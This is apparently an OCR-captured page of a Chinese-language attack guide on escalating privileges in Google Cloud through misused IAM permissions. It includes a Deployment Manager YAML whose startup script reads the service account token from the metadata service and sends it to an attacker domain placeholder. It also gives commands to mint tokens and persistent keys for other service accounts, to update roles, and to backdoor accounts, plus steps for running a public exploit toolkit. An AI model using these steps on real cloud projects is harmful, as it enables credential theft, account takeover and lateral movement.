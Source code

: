   #### IAM 权限
	绝大多数权限提升技术都是围绕成员的角色和权限进行的。 请记住，GCP 权限用于决定成员有权访问哪些资源
	● https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/
	● https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/
  ##### Deploymentmanager.deployments.create
	此权限允许您将资源部署为“cloudservices.gserviceaccount.com”，默认情况下具有编辑者角色。 攻击者可以滥用此权限来创建计算实例，添加启动脚本以通过元数据服务收集服务帐户访问令牌，最后将其发送回攻击者。
	第一步是创建用于设置计算引擎实例的 YAML 文件。
	请注意，启动脚本向元数据服务发出 curl 请求，然后它获取响应并将其发送到攻击者的计算机。 这个配置文件可以在下面找到，
	只需将 <ATTACKER-DOMAIN-HERE> 行替换为您的域或 ip：
	resources:
	- name: vm-created-by-deployment-manager
	  type: compute.v1.instance
	  properties:
	    zone: us-central1-a
	    machineType: zones/us-central1-a/machineTypes/n1-standard-1
	    disks:
	       deviceName: boot
	    type: PERSISTENT
	    boot: true
	    autoDelete: true
	    initializeParams:
	        sourceImage: projects/debian-cloud/global/images/family/debian-9
	    networkInterfaces:
	    - network: global/networks/default
	      accessConfigs:
	        - name: External NAT
	        type: ONE_TO_ONE_NAT
	    metadata:
	      items:
	      - key: startup-script
	        value: |
	            #!/bin/bash
	            apt-get update
	            apt-get install -y curl 
	            curl http://<ATTACKER-DOMAIN-HERE>/gce_token -d $(curl
	            http://169.254.169.254/computeMetadata/v1beta1/instance/service-accounts/default/token)
	    serviceAccounts:
	    - email: default
	      scopes:
	        - https://www.googleapis.com/auth/cloud-platform
	接下来，您需要使用部署管理器命令创建计算引擎
	如下所示：
	gcloud deployment-manager deployments create <DEPLOYMENT-NAME> --config <CONFIG-FILE-NAME>.yaml
	计算引擎启动后，您应该会收到带有新创建的访问令牌的回调
  ##### iam.roles.update
	角色只是权限的集合。 iam.roles.update 权限允许您向自定义角色添加其他权限。 如果您将自定义角色应用于您的帐户，您可以向该角色添加额外的权限，以便您升级您的权限，如下所示：
	> gcloud iam roles update <ROLE-NAME> --project PROJECT-ID>--permissions=<PERMISSION-1,PERISSION-2>
  ##### iam.serviceAccounts.getAccessToken
	在 gcloud 中，访问令牌充当帐户的临时凭证。 获得对另一个用户的访问令牌的访问权限允许攻击者以受害者身份向 gcloud 进行身份验证。 不幸的是，我找不到 gcloud cli 命令来执行此操作，但我们可以使用
	谷歌API如下图：
	>  curl -X POST -H "Authorization: Bearer "$(gcloud auth print-access-token) -H "Content-Type: application/json; charset=utf-8" -d "{ 'scope': [ 'https://www.googleapis.com/auth/iam','https://www.googleapis.com/auth/cloud-platform' ] }" https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/<TARGET-SERVICE-ACCOUNT>:generateAccessToken
  ##### iam.serviceAccountKeys.create
	iam.serviceAccounts.getAccessToken 允许您创建临时凭证，但此权限允许您创建附加到服务帐户的永久密钥。 然后可以使用这些密钥登录 gcloud
	> gcloud iam service-accounts keys create OUTPUT-FILE --iam-account=IAM_ACCOUNT
  ##### iam.serviceAccounts.actAs
	此权限允许您使用另一个服务帐户创建资源。例如，如果您想创建一个计算实例并将另一个服务帐户附加到该 VM，您将需要此权限以及创建 VM 的权限。
	在以下需要此权限才能工作的小节中可以找到更多示例。
	Cloudfunctions.functions.create
	此方法需要设置以下权限：
	● iam.serviceAccounts.actAs
	● Cloudfunctions.functions.create
	● Cloudfunctions.functions.sourceCodeSet
	● Cloudfunctions.functions.create
	在这里，我们正在创建一个云函数作为另一个服务帐户，当调用该服务帐户时，它将获取服务帐户访问令牌并将其发送到攻击者的机器。
	● 创建云功能
	● 附加服务帐号到云功能
	● 调用云功能
	    ○ 使用元数据服务获取访问令牌
	● 向攻击者发送凭据
  #### GCP IAM 权限提升工具
	Rhino Security Labs 还创建了一个工具，可用于搜索和利用这些错误配置：
	● https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation
	要使用此工具，您必须拥有有效的访问令牌和项目 ID。可以通过多种方式检索访问令牌和项目 ID，但最流行的方式之一是通过 SSRF。
	首先运行 enumerate_member_permissions.py 脚本
	> python3 enumerate_member_permissions.py --project xxxxx
	请注意，如果您没有正确的权限，该命令将失败并且您将无法检查权限升级，但是您可以使用蛮力方法，手动尝试所有的利用，直到一个有效。
	如果您确实拥有正确的权限，该命令将运行并将所有内容保存到一个文件夹中。 下一步是运行“python3 check_for_privesc.py”命令。 鉴于当前的 IAM 政策，这将检查您可以危害其他账户的所有可能方式
	根据结果，您将能够破坏多个帐户。 要实际运行漏洞利用，您需要移动到漏洞利用文件夹。 然后你只需选择你的漏洞利用，用你的详细信息编辑 python 文件，然后运行脚本。
	为其他帐户创建服务帐户密钥，如果成功，这将允许您以该服务帐户身份登录，这对于横向移动非常有用
	在文件iam.serviceAccountKeys.create.py中我们需要输入项目 id 和我们的目标服务帐户。 之后，运行脚本，它会询问您的访问令牌，脚本完成后，它将创建并输出目标服务帐户密钥
	接下来，您必须对“privateKeyData”进行 base64 解码，它应该为您提供一个 json blob。 此 json blob 是您的凭据。 获得凭据后，您可以使用 gcloud 通过以下命令以该用户身份登录。
	> gcloud auth activate-service-account --key-file=test_cred.json
	如果用户拥有比我们更高的权限，那么我们只需执行权限升级，如果他们没有，那么我们可以使用它进行横向移动。 此外，我们还可以使用相同的技术对用户进行后门。
	查看“check_for_privesc.py”脚本的输出即可了解您可以做什么